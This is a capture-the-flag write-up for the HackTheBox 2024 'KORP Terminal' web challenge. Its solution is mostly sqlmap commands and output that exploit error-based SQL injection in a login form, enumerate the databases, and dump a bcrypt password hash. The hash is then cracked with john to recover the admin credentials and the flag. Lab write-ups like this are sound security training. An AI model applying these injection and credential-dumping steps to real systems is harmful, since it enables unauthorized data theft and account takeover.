 ```yaml
---
name: KORP Terminal (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for KORP Terminal (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# KORP Terminal

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=375 "HackTheBox Cyber Apocalypse '24: KORP Terminal (web)")

## Description

> Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Solution

Greeted by a login page. If we send single quotes in username/password box it triggers a MySQL error 👀

Tried SQLMap but it fails due to `401: Unauthorized`.

Luckily, we can just ignore that HTTP code.

```bash
sqlmap -r new.req --batch --ignore-code 401

[INFO] POST parameter 'username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
```

Find the databases.

```bash
sqlmap -r new.req --batch --ignore-code 401 --dbs

available databases [3]:
[*] information_schema
[*] korp_terminal
[*] test
```

Then the tables.

```bash
sqlmap -r new.req --batch --ignore-code 401 -D korp_terminal --tables

+-------+
| users |
+-------+
```

Dump the passwords.

```bash
sqlmap -r new.req --batch --ignore-code 401 -D korp_terminal -T users -C password --dump

+--------------------------------------------------------------+
| password                                                     |
+--------------------------------------------------------------+
| $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. |
+--------------------------------------------------------------+
```

Crack the `bcrypt` hash with `john`.

```bash
john hash --wordlist=$rockyou

password123
```

Log in to the app and receive the flag.

```bash
admin:password123
```

Flag: `HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}`
